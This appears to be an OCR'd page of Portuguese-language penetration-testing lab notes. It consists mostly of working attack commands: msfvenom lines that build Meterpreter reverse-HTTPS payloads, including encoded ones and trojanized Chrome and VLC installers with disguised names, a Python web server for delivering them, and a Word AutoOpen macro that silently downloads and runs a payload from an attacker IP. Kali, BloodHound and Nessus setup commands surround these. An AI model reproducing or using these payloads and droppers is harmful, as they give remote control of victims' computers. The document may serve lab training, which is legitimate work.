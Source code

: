 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

 SharpHound.exe -c All
 
 http://<IP_DO_KALI>:8080/SharpHound.exe

https://github.com/BloodHoundAD/SharpHound/releases


mkdir -p ~/lab/scans ~/lab/exploits ~/lab/reports ~/lab/scripts



sudo apt install kali-linux-large virtualbox-guest-x11 build-essential -y

sudo msfdb init

sudo systemctl start postgresql
sudo systemctl enable postgresql

sudo apt install bloodhound neo4j gobuster seclists wireshark john hashcat nmap burpsuite -y


sudo dpkg -i Nessus-xxx.deb
sudo systemctl start nessusd


Sub AutoOpen()
    On Error Resume Next
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Comando para baixar e executar o payload
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command " & _
                "Invoke-WebRequest -Uri 'http://<SEU_IP>:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe'; " & _
                "Start-Process 'C:\Users\Public\update.exe'", 0, False
    
    Set objShell = Nothing
End Sub

https://www.microsoft.com/pt-br/software-download/windows10ISO


